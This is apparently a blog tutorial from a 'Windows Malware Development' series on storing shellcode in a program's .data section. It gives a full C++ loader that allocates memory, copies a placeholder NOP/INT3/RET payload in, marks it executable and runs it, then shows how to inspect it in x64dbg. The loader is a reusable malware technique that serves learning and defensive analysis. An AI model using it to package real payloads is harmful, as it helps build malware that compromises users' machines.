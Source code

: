 ```yaml
---
title: "Windows Malware Development Part 3: Payload Placement Basics - .data"
header:
  teaser: /assets/images/pe.png
  teaser_home_page: true
categories:
  - Malware Dev
classes: wide
tags:
  - Malware
toc: true
toc_label: Contents
---
```

## Objective ##

Hey guys, welcome to the third part of Windows Malware Development, in which we will be beginning with the basics of payload placement. In this post, we will be looking at how to place our shellcode in the `.data` and `.rdata` sections.

## .data Section ##

Placing our payload in the `.data` section is relatively easy. All we have to do is make sure that our shellcode variable is defined outside of our `main()` function. 

>You will need Visual Studio/Visual studio build tools, x64dbg and ProcessHacker for this exercise.

### Writing the code ###

So, using our code from the previous post, all we have to do is remove the `#pragma` directive and the `declspec` line that tells it where to store the shellcode. Also, we do not define it as a `const`:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

unsigned char Text_RawData[] = {
    0x90,    // NOP
    0x90,    // NOP
    0xcc,    // INT3
    0xc3     // RET
};

int main() {
    printf("[i] Text_RawData function: 0x%p \n", Text_RawData);

	// Allocate executable memory.
    size_t codeSize = sizeof(Text_RawData);
    printf("[1] Press <Enter> To Allocate Memory ...");
	getchar();
	void* executableMemory = VirtualAlloc(NULL, codeSize, MEM_COMMIT |  MEM_RESERVE, PAGE_READWRITE);
	
	if (executableMemory == NULL) {
        printf("VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	printf("[i] Memory allocated at : 0x%p \n", executableMemory);
	
	// Copy the shellcode from Text_RawData to the executable memory.
    printf("[2] Press <Enter> To Write Shellcode ...");
	getchar();
	memcpy(executableMemory, Text_RawData, codeSize);
    
	// Change the memory protection to PAGE_EXECUTE_READ.
    DWORD oldProtect;
    if (!VirtualProtect(executableMemory, codeSize, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	// Execute our shellcode
    printf("[#] Press <Enter> To Run ...");
	getchar();
	((void (*)())executableMemory)();
	return 0;
	
	// Free the allocated memory.
    VirtualFree(executableMemory, 0, MEM_RELEASE);

    printf("[#] Press <Enter> To Quit ...");
    getchar();
    return 0;
}
```

### Analyzing in x64dbg ###

In order to get a better understanding of how this works on a machine level, lets have a look at our program in x64dbg.

If you are using VS build tools, you can use the below command:

```
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcfilename.cpp /link /OUT:output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```

Now, lets run our program and attach the debugger to it. As our console prints out the address of our raw data array (our shellcode), lets first go to that address by jumping to it:

![jmp_data.png](/assets/images/jmp_data.png)

Once we reach there in our CPU window, we can see the series of instructions of our shellcode. If we right click on the first instruction of our shellcode, and follow it in the memory map window, we can see that the shellcode resides in the `.data` section now:

![data_sec.png](/assets/images/data_sec.png)

There are no changes in the execution part of our program, so execution will happen in the same way as the `.text` shellcode program from our previous post.

